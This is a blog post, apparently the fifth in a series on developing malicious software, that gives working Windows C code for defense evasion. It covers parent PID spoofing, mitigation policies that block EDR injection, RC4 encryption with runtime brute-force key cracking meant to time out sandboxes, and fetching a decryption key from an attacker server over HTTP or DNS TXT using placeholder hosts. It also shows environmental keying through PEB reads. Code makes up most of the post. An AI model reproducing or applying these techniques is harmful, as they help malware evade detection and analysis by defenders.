




## Introduction
This is the fifth post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
In the previous posts we explored anti-VM, anti-sandbox, anti-debugging and anti-static-analysis methods.  
In this post we'll explore some cool tricks to further obscure our code like parent PID spoofing, process protection, environmental keying and bruteforce decryption of malware data and configuration. So this will be a mix of some cool features I've been implementing recently.

As always: we assume 64-bit execution environment. Also, error checks and cleanups are ommited in the code samples below.

## Process creation tips
### Parent PID spoofing
This is a simple method to bypass malicious behavior detections based on parent-child process relationship. Usually when an application starts another executable, the new process has a parent PID assigned which indicates the process that created it. This allows to detect and possibly block malicious intents like for example `Word`/`Excel` application starting `Powershell`. This technique may be combined with for example process hollowing to achieve more stealth.

The great thing is that `CreateProcess` API lets you provide additional information for process creation, including the one called `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`. Let's see how to use it - we will create a `Powershell` process in a way that it will look like it was spawned by `explorer.exe`:

```c
DWORD runningProcessesIDs[1024];
DWORD runningProcessesCountBytes;
DWORD runningProcessesCount;
HANDLE hExplorerexe = NULL;

EnumProcesses(runningProcessesIDs, sizeof(runningProcessesIDs), &runningProcessesCountBytes);
runningProcessesCount = runningProcessesCountBytes / sizeof(DWORD);

for (int i = 0; i < runningProcessesCount; i++)
{
    if (runningProcessesIDs[i] != 0)
    {
        HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, runningProcessesIDs[i]);
        char processName[MAX_PATH + 1];
        GetModuleFileNameExA(hProcess, 0, processName, MAX_PATH);
        _strlwr(processName);
        if (strstr(processName, "explorer.exe") && hProcess)
        {
            hExplorerexe = hProcess;
        }
    }
}

STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
SIZE_T attributeSize;
RtlZeroMemory(&si, sizeof(STARTUPINFOEXA));
RtlZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)new byte[attributeSize]();
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hExplorerexe, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

CreateProcessA("C:\\Windows\\notepad.exe", NULL, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);
```

What parent process information looks like normally:



And what is looks like when spoofed:



### Process protection
[Adam Chester (\_xpn\_) described](https://blog.xpnsec.com/protecting-your-malware/) two interesting features that can be used to hinder dynamic code analysis performed by EDR or debugging:
* blocking third-party binaries from being loaded into the process: `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON`
* blocking operations on executable memory pages using Arbitrary Code Gurd (ACG): `PROCESS_CREATION_MITIGATION_POLICY_PROHIBIT_DYNAMIC_CODE_ALWAYS_ON`

This was thoroughly explained by _\_xpn\__ so let's just see some example code:
```c
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
SIZE_T attributeSize;
RtlZeroMemory(&si, sizeof(STARTUPINFOEXA));
RtlZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)new byte[attributeSize]();
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON | PROCESS_CREATION_MITIGATION_POLICY_PROHIBIT_DYNAMIC_CODE_ALWAYS_ON;
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &policy, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

bool s = CreateProcessA("Malware.exe", NULL, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);
```

Policies can also be set for existing processes using `SetProcessMitigationPolicy` API function.

There is a potential problem though - if we set dynamic code prohibition, the target process won't be able to for example allocate executable memory.

## Advanced data obfuscation by encoding or encryption
In previous articles I briefly mentioned string and data obfuscation by using XOR "encryption" or Base64 encoding. Let's take it to the next level by encrypting data with a key that is not hardcoded anywhere in the binary.

We can use `Bcrypt` Windows library (not to be confused with `bcrypt` hash function) which contains implementation of many cryptographic algorithms. We can also implement our own encryption, for example an `RC4` function (which should be sufficient for our obfuscation purposes, we're not aiming for high security here):

```c
void RC4(PCHAR key, PCHAR input, PCHAR output, DWORD length) //same function for encryption and decryption
{
    unsigned char S[256];
    int len = strlen(key);
    int j = 0;
    unsigned char tmp;
    for (int i = 0; i < 256; i++)
        S[i] = i;
    for (int i = 0; i < 256; i++) {
        j = (j + S[i] + ((PUCHAR)key)[i % len]) % 256;
        tmp = S[i];
        S[i] = S[j];
        S[j] = tmp;
    }
    int i = 0;
    j = 0;
    for (int n = 0; n < length; n++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        tmp = S[i];
        S[i] = S[j];
        S[j] = tmp;
        int rnd = S[(S[i] + S[j]) % 256];
        ((PUCHAR)output)[n] = rnd ^ ((PUCHAR)input)[n];
    }
}
```

### Brute force decryption

Now the fun part: we can encrypt any data (strings, shellcodes, C2 configuration etc.) before putting it into the application with a random key and task the app to crack the key using brute force! This will make the analysis even more difficult. Just imagine a build pipeline which uses a random key for every compilation :)

Cracking the encryption key on the application startup takes some time (depending on the key length - choose it wisely) and may timeout dynamic analysis performed by sandbox.

See example recursive function which cracks an alphanumeric key (up to 15 characters long):

```c
unsigned int djb2Hash(const char* data, DWORD dataLength)
{
    DWORD hash = 9876;

    for (int i = 0; i < dataLength; i++)
    {
        hash = ((hash << 5) + hash) + ((PBYTE)data)[i];
    }

    return hash;
}

PCHAR RecursiveCrack(PCHAR encryptedData, int encryptedDataLength, PCHAR key, int level)
{
    char keySpace[] = "\x00""ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    PCHAR decryptedData = new char[encryptedDataLength + 1]();
    for (int i = 0; i < sizeof(keySpace) - 1; i++)
    {
        if (level == 16)
        {
            if (!i) i++;
            key[16 - level] = keySpace[i];
            RC4(key, encryptedData, decryptedData, encryptedDataLength);
            if (djb2Hash(decryptedData, encryptedDataLength) == hardcodedHash) return key;
            if (i == sizeof(keySpace) - 2) return NULL;
        }
        else
        {
            key[16 - level] = keySpace[i];
            if (RecursiveCrack(encryptedData, encryptedDataLength, key, level + 1) != NULL) return key;
            else continue;
        }
    }
    delete[] decryptedData;
    return NULL;
}

PCHAR CrackKey(PCHAR encryptedData, int encryptedDataLength)
{

    PCHAR key = new char[16]();
    RecursiveCrack(encryptedData, encryptedDataLength, key, 1);
    return key;
}
```

Key verification is based on comparing the hash of the decrypted data with a precalculated, hardcoded hash value.

### Time-consuming operations
Instead of brute forcing a key, we could implement any mathematical calculation which lasts more than just a few seconds on a typical desktop computer and gives some unguessable value as a result. Examples include: big prime number factorization (like trying to break RSA encryption), hashing some data a billion times - the only limit is your imagination.

### Key delivery
Instead of calculating the key at runtime, our malicious application can retrieve it from our server. We can implement key hosting based on DNS, HTTP or any other suitable protocol. Taking it further we could serve the key based on a user agent or cookie sent by the beacon, but it a different topic (prefably for an upcoming post about Command & Control implementation).

Below is an example `HTTP GET` request:

```c
HINTERNET hSession = WinHttpOpen(L"Mozilla 5.0", WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnection = WinHttpConnect(hSession, L"domain.or.ip", INTERNET_DEFAULT_HTTP_PORT, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", L"keying.html", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, NULL);
WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
WinHttpReceiveResponse(hRequest, 0);
DWORD responseLength, readDataLength = 0;
WinHttpQueryDataAvailable(hRequest, &responseLength);
PBYTE response = new byte[responseLength + 1];
WinHttpReadData(hRequest, response, responseLength, &readDataLength);
printf("%s\n", response);
```

And here is an example `DNS TXT` query:

```c
PDNS_RECORDA ppDNSQueryResults;
DnsQuery_A("some.domain.tld", DNS_TYPE_TEXT,
    DNS_QUERY_TREAT_AS_FQDN | DNS_QUERY_BYPASS_CACHE | DNS_QUERY_NO_HOSTS_FILE | DNS_QUERY_NO_NETBT | DNS_QUERY_NO_MULTICAST | DNS_QUERY_WIRE_ONLY | DNS_QUERY_ACCEPT_TRUNCATED_RESPONSE,
    NULL, &ppDNSQueryResults, NULL);
PCHAR txtData = ppDNSQueryResults->Data.TXT.pStringArray[0];
printf("%s\n", txtData);
```

## Environmental keying
This one is somewhat similar to sandbox evasion based on user names, domain names etc. However the idea here is to target specific organization or even a person with our payload by making sure that is won't execute on a wrong machine. Specific environmental traits (like mentioned AD domain name) can be used in conditional statements or even for data decryption. This is actually catalogued as a MITRE ATT&CK technique: [Execution Guardrails: Environmental Keying](https://attack.mitre.org/techniques/T1480/001/).

So basically this is a combination of environment-based sandbox evasion and obfuscation by encryption/encoding. Also, there is a cool trick to get environmental variables without using Windows API - it is possible to retrieve the data directly from PEB. Let's take a quick look into x64 process environment block:



We have a `ProcessParameters` structure pointer at `0x20` (this would be `0x10` for `x86` architecture). The `_RTL_USER_PROCESS_PARAMETERS` structure has a pointer to an array of environment strings at `0x80`:



We then can loop through all environmental variables until we find the one called `COMPUTERNAME`:


```c
PPEB pPEB = (PPEB)__readgsqword(0x60);
PVOID params = (PVOID) * (PQWORD)((PBYTE)pPEB + 0x20);
PWSTR environmental_variables = (PWSTR) * (PQWORD)((PBYTE)params + 0x80);

while (environmental_variables)
{
    PWSTR m = wcsstr(environmental_variables, L"COMPUTERNAME=");
    if (m) break;
    environmental_variables += wcslen(environmental_variables) + 1;
}
PWSTR computerName = wcsstr(environmental_variables, L"=") + 1;
wcslwr(computerName);
wprintf(L"%s", computerName);
```

## Summary
We’ve gone through some cool techniques used by malware. Hope you'll find that useful (but not for malicious purposes :)

In the next article we will talk about using LLVM obfuscation.
